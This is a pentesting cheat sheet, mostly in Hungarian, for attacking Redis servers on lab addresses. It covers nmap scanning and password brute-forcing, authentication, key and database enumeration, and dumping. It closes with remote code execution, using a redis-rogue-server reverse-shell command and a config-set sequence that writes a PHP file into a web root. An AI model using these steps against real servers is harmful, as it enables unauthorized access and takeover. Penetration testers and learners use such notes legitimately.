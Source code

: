 # Redis
## scanning
* nmap -Pn -v 10.10.10.3 -p6379 -sV --script=redis-info
* nc -nv 10.10.10.3 6379 (kapcsolodik e... kb ennyi a lenyeg)
* redis-cli -h 10.10.10.3
  * (ha nem talalja a rendszer, akkor sudo apt install redis-tools)
* (redis-cli)# info
  * ha ezt irja -NOAUTH Authentication required. akkor authentikaciora van szukseg
## credentials
* hogyha hozzaferunk a redis.conf file-hoz akkor lehet hogy van benne usernev es jelszo (a jelszo lehet rendes vagy temporary jelszo)
  * masteruser -> username mezo
  * requirepass -> jelszo mezo
* ha nincs 'masteruser', akkor a usernev fixen 'default'
* minden nem kikommentelt sor keresese redis config fajlban
  * cat ./redis.conf | grep -P '^[^#].*'
* kivulrol nem lehet kideriteni, hogy adtak e meg usernevet masikat vagy a 'default' a usernev
  * csak akkor tudjuk, hogyha hozzaferunk a config fajlhoz
## bruteforcing password
* nmap -Pn -v 10.10.10.3 -p6379 -sV --script=redis-brute
* nmap -Pn -v 10.10.10.3 -p6379 -sV --script=redis-brute --script-args=userdb=./users.txt,passdb=./passwords.txt
* msf module...
* etc
## login with valid credentials
* ha kell megadni usernevet
<pre>
 $ redis-cli -h 10.10.10.3
 redis-cli# AUTH username password
 +OK
</pre>
* ha nincs usernev, vagyis a usernev a 'default' mert nem lett a config fajlban implementalva
  * akkor usernev nelkul kell authentikalni
<pre>
 $ redis-cli -h 10.10.10.3
 redis-cli# AUTH password
 +OK
</pre>
## server enumeration after successfull login (credentials needed) (or anonymous access needed)
* most important commands
<pre>
 redis-cli# INFO
 redis-cli# client list
 redis-cli# CONFIG GET * (ket sorba tordeli a key value parokat)
 redis-cli# monitor (monitoring requests)
 redis-cli# slowlog get 25 (get the top 25 slowest queries)
</pre>
* all commands
  * https://redis.io/docs/data-types/
  * https://lzone.de/cheat-sheet/Redis
  * https://lzone.de/cheat-sheet/Redis
* commands can be disabled and command names can be modified with alias
  * it can be done in the config file
  * modifying commands (e.g. FLUSHDB)
    * rename-command FLUSHDB "NEWFLUSHDB"
  * disable commands (e.g. FLUSHDB)
    * rename-command FLUSHDB ""
## database enumeration
### basic enumeration
<pre>
 INFO keyspace (list databases)
 SELECT 1 (select nth database, indexed from 0)
 KEYS * (list keys of selected database)
 GET key_name (view specified record) (lehet hogy double qoute koze kell rakni a key nevet)
</pre>
* plus info
  * In that example the database 0 and 1 are being used. Database 0 contains 4 keys and database 1 contains 1. By default Redis will use database 0. In order to dump for example database 1 you need to do:
### error -WRONGTYPE Operation against a key holding the wrong kind of value
* In case you get the follwing error -WRONGTYPE Operation against a key holding the wrong kind of value while running GET <KEY> it's because the key may be something else than a string or an integer and requires a special operator to display it.
* To know the type of the key, use the TYPE command, example below for list and hash keys.
<pre>
 TYPE key_name
 [ ... Type of the Key ... ]
 LRANGE key_name 0 -1
 [ ... Get list items ... ]
 HGET key_name field_name
 [ ... Get hash item ... ]
</pre>
## dump the whole redis database
* Dump the database with npm redis-dump or python redis-utils
  * https://www.npmjs.com/package/redis-dump
  * https://pypi.org/project/redis-utils/
## redis RCE
### interactive shell and reverse shell
* https://github.com/n0b0dyCN/redis-rogue-server
* redis-rogue-server can automatically get an interactive shell or a reverse shell in Redis(<=5.0.5).
* $ python3 redis-rogue-server.py --rhost=10.10.71.180 --lhost=127.0.0.1
  * ki kell valasztani a menubol hogy interactive shell-t akarunk vagy reverse shell-t
  * ha reverse shell -t, akkor kell inditani egy listenert
* lehetseges olyan hogy nem megy tovabb es megall annal a resznel hogy 'setting dbfilename'
### php webshell
* https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html
* You must know the path of the Web site folder:
<pre>
 $ redis-cli -h 10.10.10.3
 10.10.10.3:6379> config set dir /usr/share/nginx/html
 OK
 10.10.10.3:6379> config set dbfilename redis.php
 OK
 10.10.10.3:6379> set test "<?php phpinfo(); ?>"
 OK
 10.10.10.3:6379> save
 OK
</pre>
### egyeb lehetosegek a hacktricks leirasban kifejtve...
* https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis
## source
* https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis
